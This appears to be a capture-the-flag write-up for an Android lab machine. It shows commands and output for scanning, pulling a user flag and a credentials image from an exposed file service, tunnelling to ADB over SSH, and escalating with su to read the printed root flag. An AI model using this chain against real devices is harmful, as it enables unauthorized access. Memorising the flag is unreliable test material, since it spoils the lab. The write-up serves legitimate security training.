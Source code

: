 its an andoird device so i started by running nmap and found a bunch of ports open [here](nmapOutput.log)
 
 Didnt see a direct adb port but i tried anyways and failed

## User

Literally found via ffuf and zero effort , it was at http://10.10.10.247:59777/sdcard/user.txt 


## Root

Tried directory brute forcing the same for root flag but couldnt

found cred.png at `http://10.10.10.247:59777/sdcard/DCIM`

used the username and password to port forward via:  
`ssh -p 2222 -L 5555:localhost:5555 kristi@10.10.10.247`

then connect to adb via
```bash
adb connect localhost:5555
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to localhost:5555
```

check the list of connected devices via
```bash
    adb devices                                                                                                                                                                         130 ⨯
List of devices attached
emulator-5554   device
localhost:5555  device
```

connect to the localhost device via:
`adb -s localhost:5555 shell  `

once connected change to root user and grab the flag:
```bash
x86_64:/ $ su
:/ # ls
acct                   init.superuser.rc       sbin
bin                    init.usb.configfs.rc    sdcard
bugreports             init.usb.rc             sepolicy
cache                  init.zygote32.rc        storage
charger                init.zygote64_32.rc     sys
config                 lib                     system
d                      mnt                     ueventd.android_x86_64.rc
data                   odm                     ueventd.rc
default.prop           oem                     vendor
dev                    plat_file_contexts      vendor_file_contexts
etc                    plat_hwservice_contexts vendor_hwservice_contexts
fstab.android_x86_64   plat_property_contexts  vendor_property_contexts
init                   plat_seapp_contexts     vendor_seapp_contexts
init.android_x86_64.rc plat_service_contexts   vendor_service_contexts
init.environ.rc        proc                    vndservice_contexts
init.rc                product
:/ # whoami
root
:/ # cat /data/root.txt
f04fc82b6d49b41c9b08982be59338c5
```
